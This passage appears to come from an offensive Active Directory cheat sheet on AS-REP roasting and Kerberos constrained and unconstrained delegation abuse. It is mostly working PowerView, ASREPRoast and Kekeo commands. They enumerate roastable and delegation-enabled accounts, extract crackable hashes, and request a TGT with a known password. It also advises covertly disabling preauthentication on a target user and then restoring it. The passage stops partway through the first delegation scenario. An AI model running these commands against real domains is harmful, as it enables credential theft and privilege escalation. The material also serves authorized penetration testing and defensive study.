 Check for users who don't have kerberos preauthentication set:

`Get-DomainUser -PreauthNotRequired -Properties distinguishedname -Verbose`

`Get-DomainUser -UACFilter DONT_REQ_PREAUTH`

Note: If you have GenericWrite/GenericAll rights over a target user, you can maliciously modify their userAccountControl to not require preauth, use ASREPRoast, and then reset the value.

Now switch from PowerView to ASREPRoast:

https://github.com/HarmJ0y/ASREPRoast

`Get-ASREPHash -UserName victim -Domain contoso.local -Verbose`

"The final useful function in ASREPRoast is Invoke-ASREPRoast. If run from a domain authenticated, but otherwise unprivileged, user context in a Windows Kerberos environment, this function will first enumerate all users who have “Do not require Kerberos preauthentication” set in their user account control settings by using the LDAP filter (userAccountControl:1.2.840.113556.1.4.803:=4194304). For each user returned Get-ASREPHash is used to return a crackable hash."

`Invoke-ASREPRoast -Verbose`

### S4U2 & Delegation

http://www.harmj0y.net/blog/activedirectory/s4u2pwnage/

https://labs.mwrinfosecurity.com/blog/trust-years-to-earn-seconds-to-break/

First, enumerate all computers and users with a non-null msds-allowedtodelegateto field set. Find any users/computers with constrained delegation set:

`Get-DomainUser -TrustedToAuth`

`Get-DomainComputer -TrustedToAuth`

Filtered and verbose: `Get-DomainComputer -TrustedToAuth -Properties distinguishedname,msds-alloweddelegateto,useraccountcontrol -Verbose | fl`

Enumerate all servers that allow unconstrained delegation (userAccountControl attribute containing ADS_UF_TRUSTED_FOR_DELEGATION), and all privileged users that aren't marked as sensitive/not for delegation:

`Get-DomainComputer -Unconstrained`

`Get-DomainUser -AllowDelegation -AdminCount`

Hunt for admin users that allow delegation, logged into servers that allow unconstrained delegation:

`Find-DomainUserLocation -ComputerUnconstrained -UserAdminCount -UserAllowDelegation`

Now, remember that a machine or user account with a SPN set under msds-allowedtodelegateto can pretend to be any user they want to the target service SPN.

**Scenario 1 - User Account Configured For Constrained Delegation**

Use Kekeo or Linux tools with a user account and a known plaintext password or NTLM hash to request a TGT, execute S4U TGS request, and access the service.

`asktgt.exe /user:SQLService /domain:testlab.local /password:Password1 /ticket:sqlservice.kirbi`
